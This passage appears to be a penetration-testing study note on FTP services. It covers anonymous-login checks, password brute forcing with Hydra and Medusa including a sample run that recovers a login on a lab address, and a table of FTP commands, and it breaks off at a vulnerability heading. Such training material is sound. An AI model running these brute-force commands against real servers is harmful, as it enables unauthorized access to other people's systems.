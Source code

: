 One of the most common misconfigurations is allowing anonymous access:

```bash
ftp <target>
Username: anonymous
Password: anonymous@domain.com
```

If successful, this grants access without valid credentials - a significant security issue.

#### Brute Force Attacks

When anonymous access is not available, credential brute forcing can be attempted:

```bash
# Using Hydra
hydra -L users.txt -P passwords.txt ftp://<target>

# Using Medusa
medusa -u user -P passwords.txt -h <target> -M ftp
```

Example Hydra execution:

```
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.129.14.136 ftp
[21][ftp] host: 10.129.14.136   login: user   password: password123
```

### Common FTP Commands

Once authenticated, these commands are useful for interacting with the FTP server:

| Command         | Description              |
| --------------- | ------------------------ |
| `USER username` | Authentication username  |
| `PASS password` | Authentication password  |
| `HELP`          | Show available commands  |
| `PWD`           | Print working directory  |
| `DIR`           | List directory contents  |
| `CWD directory` | Change working directory |
| `GET filename`  | Download file            |
| `PUT filename`  | Upload file              |
| `PASV`          | Enable passive mode      |
| `QUIT`          | End session              |

### Vulnerability Assessment

#### Common Vulnerabilities
